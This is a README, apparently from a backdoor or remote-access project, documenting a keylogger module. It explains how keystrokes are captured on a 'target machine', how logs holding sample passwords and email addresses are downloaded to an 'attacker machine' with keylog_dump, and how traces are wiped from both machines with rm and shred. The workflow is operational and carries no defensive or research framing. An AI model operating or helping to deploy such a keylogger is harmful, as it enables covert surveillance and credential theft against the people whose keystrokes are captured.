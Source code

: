 # Keylog Directory

This directory stores keystroke logs captured from the target machine.

## File Information

### Main Log File

- **Filename:** `keylog.txt`
- **Location:** `logs/keylog/keylog.txt`
- **Format:** Plain text with timestamps

### Log Format

```
[YYYY-MM-DD HH:MM:SS] captured keystrokes...
[2025-10-04 14:25:12] Hello World
[2025-10-04 14:26:45] password123
[2025-10-04 14:27:10] username@email.com
```

## How It Works

### Keystroke Capture

1. **Regular Keys** - Letters, numbers, symbols logged as-is
2. **Space** - Logged as space character
3. **Enter** - Creates new line and triggers auto-save
4. **Tab** - Logged as tab character
5. **Backspace** - Removes last character from buffer
6. **Special Keys** - Logged in brackets: `[SHIFT]`, `[CTRL]`, `[ALT]`

### Auto-Save Mechanism

- Saves automatically every 50 keystrokes
- Saves when Enter key is pressed
- Saves when keylogger is stopped
- Each entry includes timestamp

## Commands

### Start Keylogger

```bash
keylog_start
```

Begins capturing keystrokes and logging to `keylog.txt`

### Download Keylog File

```bash
keylog_dump
```

**What happens:**

1. Saves any buffered keystrokes
2. Automatically downloads file to attacker machine
3. Saves as: `keylog_dump_YYYYMMDD_HHMMSS.txt`
4. Displays content in terminal

**Note:** File is downloaded to attacker machine, not just displayed!

### Check Status

```bash
keylog_status
```

Shows:

- Running status (active/stopped)
- Log file path
- Buffer size
- File size

### Stop Keylogger

```bash
keylog_stop
```

Stops capturing and saves any remaining logs

### Clear Logs

```bash
keylog_clear
```

Deletes the `keylog.txt` file and clears buffer

## File Management

### On Target Machine

- **Location:** `logs/keylog/keylog.txt`
- **Purpose:** Temporary storage of captured keystrokes
- **Persistence:** Grows until cleared or downloaded

### On Attacker Machine

After running `keylog_dump`, files are saved as:

```
keylog_dump_20251004_143022.txt
keylog_dump_20251004_150530.txt
keylog_dump_20251005_091245.txt
```

- **Location:** Same directory where `server.py` runs
- **Format:** Identical to target's log file
- **Benefit:** Each dump creates new file (no overwrites)

## Cleanup

### Clear Target Logs

```bash
# From backdoor interface
keylog_clear
```

### Manual Cleanup (if needed)

```bash
# On target machine
rm logs/keylog/keylog.txt

# On attacker machine (after analysis)
shred -u keylog_dump_*.txt
```

## Troubleshooting

### Issue: "Keylogger feature not available"

**Solution:** Install pynput library

```bash
pip install pynput
```

### Issue: Empty log file

**Possible causes:**

1. Keylogger not started - Run `keylog_start`
2. No keyboard activity on target
3. Permissions issue - Check file permissions

### Issue: Log file not found

**Solution:**

1. Start keylogger: `keylog_start`
2. Wait for keyboard activity
3. Check status: `keylog_status`

## Usage Example

Complete workflow:

```bash
# 1. Start keylogger
[192.168.0.107]> keylog_start
Keylogger started successfully

# 2. Wait for target to type (monitoring happens automatically)
# ...

# 3. Download captured keystrokes
[192.168.0.107]> keylog_dump

Keylog file ready: logs/keylog/keylog.txt
[*] Downloading keylog file...
[+] Keylog file downloaded: keylog_dump_20251004_143022.txt

=== Keylog Content ===
[2025-10-04 14:25:12] password123
[2025-10-04 14:26:45] username@email.com
=== End of Keylog ===

# 4. (Optional) Clear logs on target
[192.168.0.107]> keylog_clear
Logs cleared successfully

# 5. Stop keylogger when done
[192.168.0.107]> keylog_stop
Keylogger stopped successfully
```

## File Size Considerations

Typical file sizes:

- **1 hour of typing:** ~50-200 KB
- **1 day of normal use:** ~500 KB - 2 MB
- **1 week:** ~2-10 MB

**Note:** File size varies greatly depending on typing activity.

